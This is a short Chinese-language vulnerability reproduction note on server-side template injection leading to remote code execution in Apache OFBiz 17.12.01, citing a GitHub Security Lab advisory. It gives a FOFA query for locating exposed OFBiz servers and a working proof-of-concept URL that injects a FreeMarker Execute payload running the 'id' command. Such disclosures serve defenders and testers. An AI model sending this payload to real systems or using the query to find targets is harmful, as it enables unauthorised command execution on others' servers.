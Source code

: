 # Apache OfBiz 服务器端模板注入 SSTI

## 漏洞描述

Apache OfBiz 17.12.01容易受到服务器端模板注入（SSTI）的影响，从而导致远程代码执行（RCE）。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-067-apache_ofbiz

## 漏洞影响

```
Apache OfBiz 17.12.01
```

## FOFA

```
app="Apache_OFBiz"
```

## 漏洞复现

服务器端模板注入 renderLookupField

从不可信数据流request.getParameter("`_LAST_VIEW_NAME_`")给一个FreeMarker的宏调用定义。具有特权以渲染任何包含查找字段的页面的攻击者将能够通过发送有效载荷来执行任意系统命令。

poc：

```
https://localhost:8443/ordermgr/control/FindQuote?_LAST_VIEW_NAME_=%22%2F%3E%24%7B%22freemarker.template.utility.Execute%22%3Fnew%28%29%28%22id%22%29%7D%3CFOO
```

